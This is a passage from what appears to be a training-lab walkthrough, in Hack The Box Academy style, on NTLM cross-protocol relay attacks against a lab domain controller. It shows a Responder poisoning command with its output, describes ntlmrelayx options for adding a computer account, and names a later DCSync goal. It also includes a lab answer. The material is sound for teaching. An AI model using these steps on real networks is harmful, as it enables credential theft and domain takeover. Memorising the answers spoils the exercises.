 Answer: `prototypeproject`

## NTLM Cross-protocol Relay Attacks

### Question 3

#### "Relay HTTP authentication over LDAP(S) to create a new computer on the DC (172.16.117.3). Then, escalate the privileges of the newly added computer account by relaying the highly-privileged NPORTS NTLM authentication over LDAP(S). Perform a DCSync attack and submit the NT hash of the account 'rons'."

Using the previously established SSH sessions, students will proceed to start `Responder.py` using `sudo` in poisoning mode using the previously altered configuration:

Code: shell

```shell
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:80f3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6Y3FH7UTIW2]
    Responder Domain Name      [0RAB.LOCAL]
    Responder DCE-RPC Port     [45567]

[+] Listening for events...
```

Subsequently, students need to start `ntlmrelayx` using `sudo` in another terminal window, targeting the `ldap` protocol and the domain controller (`172.16.117.3`), specifying the options: `-smb2support` to support SMB2 if required, `--no-da` to not attempt to add a Domain Admin, `--no-acl` to disable ACL attacks and `--add-computer` to attempt to add a new computer account in the domain:
